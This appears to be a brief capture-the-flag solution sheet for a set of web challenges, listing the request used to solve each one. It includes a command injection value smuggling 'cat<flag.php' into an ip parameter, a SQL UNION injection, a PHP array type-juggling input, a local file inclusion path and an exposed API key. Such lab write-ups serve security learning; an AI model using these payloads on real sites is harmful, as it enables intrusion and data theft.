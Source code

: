 ### 5
- CSS; in styles.css


## api
```
/api/api.php?show_secret=1&api_key=kcc175b9c0f1b6a831c399e269772661
```

## weak
```
/weak/?input=00
```

## hash
- Use command or [CyberChef](https://gchq.github.io/CyberChef/)
```bash
echo -n Web | sha256sum
echo -n 2975104784a401e3880e2215550e9490eda7e67db5fc2b35e1a244acb092ced3 | sha1sum
echo -n 9e17ac1575889b4cb1b799454ac4da58b1870ffc | md5sum
# c8418811869de0bda328ed9dbed7e7b6
```

## http
just curl `/http/index.php`

## cmd
```
/cmd/?ip=;cat<flag.php
```

## sql
```
/sql/?select * from a_table
```

## weak hash
```
/weak_hash/?s[]=
```

## sql injection
```
/sql_injection/?name=' union select 'admin
```

## lfi
```
/lfi/?page=flag.php
```
